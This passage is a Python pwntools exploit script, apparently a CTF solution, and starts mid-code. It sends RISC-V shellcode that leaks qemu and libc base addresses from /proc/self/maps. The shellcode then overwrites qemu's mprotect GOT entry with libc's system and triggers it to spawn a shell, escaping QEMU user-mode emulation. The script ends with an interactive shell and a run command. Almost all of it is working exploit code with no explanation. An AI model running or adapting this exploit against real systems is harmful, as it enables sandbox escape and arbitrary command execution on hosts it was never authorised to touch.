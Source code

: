 ```python
    "ecall\\n"
    "ret\\n"
);
'''

shellcode = '''
void * syscall();
__attribute__((section(".text"))) char maps[] = "/./proc/self/maps";

int main() {
    long long * libc_base,* qemu_base;
    char buf[0x1000];
    void * f = 
    syscall(56,0,maps,0);         // openat  =  56
    syscall(63,f,buf,0xf00);      // read    =  63
    syscall(64,1,buf,0xf00);      // write   =  64
    syscall(63,f,buf,0xf00);      // read    =  63
    syscall(64,1,buf,0xf00);      // write   =  64

    syscall(63,0,&qemu_base,8);
    syscall(63,0,&libc_base,8);

    long long * libc_system   =   libc_base + 0x04f550/8;
    long long * mprotect_got  =   qemu_base + 0x6a3200/8;
    long long * ro_memory     =   qemu_base + 0x668000/8;

    syscall(226,ro_memory,0x3c000,6);
    * mprotect_got = (long long)  libc_system;
    * ro_memory    = (long long)  0x6873;

    syscall(226,ro_memory,0x3c000,6);

}

asm(
    "syscall:\\n"
    "mv a7, a0\\n"
    "mv a0, a1\\n"
    "mv a1, a2\\n"
    "mv a2, a3\\n"
    "ecall\\n"
    "ret\\n"
);
'''

io.sendline(gen_shellcode(shellcode_jmp).ljust(288,b'a')+p64(0x4000800b48))
io.sendline(gen_shellcode(shellcode))

data = io.recvuntil("libc-")
data = str(data).replace("\\n","\n").splitlines()
io.recv(4096)
for i in data:
    if "00000000" not  in i: continue
    if "qemu-riscv64"  in i: qemu_base = int(i[0:12],16)
    if "libc-"         in i: libc_base = int(i[0:12],16)
log.success(hex(qemu_base))
log.success(hex(libc_base))

io.send(p64(qemu_base)+p64(libc_base))
io.interactive()

```python
➜  python exp.py
```